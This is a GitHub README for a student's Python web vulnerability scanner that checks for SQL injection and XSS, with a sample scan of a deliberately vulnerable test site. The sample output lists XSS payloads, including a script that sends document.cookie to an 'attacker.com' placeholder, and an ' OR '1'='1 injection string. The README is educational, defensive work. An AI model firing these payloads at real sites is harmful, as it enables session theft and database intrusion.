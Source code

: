 # CODTECH_ADVANCED_TASK_2
# Web Vulnerability Scanner

## Personal information 
Name: Priyanshu Vijay Singh
Company: CODTECH IT SOLUTIONS
ID•. CT08FFC
Domain: Cyber Security
Duration: 20 dec 2024 to 20 jan 2025
Mentor: Neela Santhosh Kumar

## Overview

This is a simple Python-based tool designed to scan websites for common vulnerabilities, including SQL injection and Cross-Site Scripting (XSS). The tool uses various techniques to detect these vulnerabilities and generates a detailed report. It utilizes the `requests`, `BeautifulSoup`, and `pyfiglet` libraries for web scraping and logging purposes.

## Features

- **SQL Injection Detection**: Identifies SQL injection vulnerabilities by testing various SQL payloads in URL parameters.
- **Cross-Site Scripting (XSS) Detection**: Detects both reflected and stored XSS vulnerabilities by injecting common XSS payloads.
- **Form Scanning**: Scans HTML forms for potential XSS vulnerabilities.
- **Multi-Page Scanning**: The scanner follows links within the same domain to detect vulnerabilities across multiple pages.
- **Logging and Reporting**: Generates a detailed vulnerability report, including the type, severity, and evidence for each identified vulnerability.

## Installation

#### 1. Clone The repository : 

```bash 
git clone https://github.com/hipremsoni/CODTECH_ADVANCED_TASK_2.git
cd CODTECH_ADVANCED_TASK_2
```

#### 2. Install the required Python packages using `pip` :

```bash 
pip install -r requirements.txt 
```

#### 3. Run The Tool :
```bash 
python3 web_vuln_scanner.py 
```

### Prerequisites

- Python 3.x
- Pip (Python package installer)

The `requirements.txt` file should include:

```text
requests
beautifulsoup4
pyfiglet
colorama
```

## Usage

### Running the Scanner

1. Run the script:

```bash
python web_vuln_scanner.py
```

2. You will be prompted to enter the target website URL (e.g., `http://example.com`).

3. The scanner will analyze the website and its links, testing for common vulnerabilities such as SQL injection and XSS.

4. After the scan completes, a detailed report will be displayed on the terminal.
### Screenshots
![image-1](https://github.com/user-attachments/assets/f1acb96d-21ee-486d-a02c-cae57504666d)
![image-2](https://github.com/user-attachments/assets/84699664-a003-48ab-a4cf-105b23fa8d24)

### Example


```bash
__        __   _      __     __     _       
\ \      / /__| |__   \ \   / /   _| |_ __
 \ \ /\ / / _ \ '_ \   \ \ / / | | | | '_ \
  \ V  V /  __/ |_) |   \ V /| |_| | | | | |
   \_/\_/ \___|_.__/     \_/  \__,_|_|_| |_|

 ____
/ ___|  ___ __ _ _ __  _ __   ___ _ __
\___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 ___) | (_| (_| | | | | | | |  __/ |
|____/ \___\__,_|_| |_|_| |_|\___|_|


- Created by Premkumar Soni
Welcome to the Web Application Vulnerability Scanner!

Enter the target website URL (e.g., http://example.com): http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com/privacy.php
2025-01-15 11:18:28,918 - ERROR - Error scanning http://testphp.vulnweb.com/privacy.php: 404 Client Error: Not Found for url: http://testphp.vulnweb.com/privacy.php
[Scanning] http://testphp.vulnweb.com/guestbook.php
[Scanning] http://testphp.vulnweb.com/userinfo.php
[Scanning] http://testphp.vulnweb.com/disclaimer.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/
[Scanning] http://testphp.vulnweb.com/categories.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/
[Scanning] http://testphp.vulnweb.com/login.php
[Scanning] http://testphp.vulnweb.com/listproducts.php?cat=2
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
[SQL Injection Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1

 ____                    ____                       _
/ ___|  ___ __ _ _ __   |  _ \ ___ _ __   ___  _ __| |_
\___ \ / __/ _` | '_ \  | |_) / _ \ '_ \ / _ \| '__| __|
 ___) | (_| (_| | | | | |  _ <  __/ |_) | (_) | |  | |_
|____/ \___\__,_|_| |_| |_| \_\___| .__/ \___/|_|   \__|
                                  |_|

Target: http://testphp.vulnweb.com
Scan Date: 2025-01-15T11:18:48.820498
Pages Scanned: 10

Vulnerabilities Found:

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
---

Type: SQL Injection
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: Critical
Description: SQL Injection vulnerability detected.
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1
```

## Acknowledgements

- `requests` for making HTTP requests.
- `BeautifulSoup` for parsing HTML.
- `pyfiglet` for generating ASCII art.
- `colorama` for adding color to terminal output.

---

### Notes

- The tool is intended for educational purposes only. Use it responsibly and only on websites you own or have explicit permission to test.
- This tool is a basic implementation of a web vulnerability scanner and can be extended with additional vulnerability detection techniques.

---
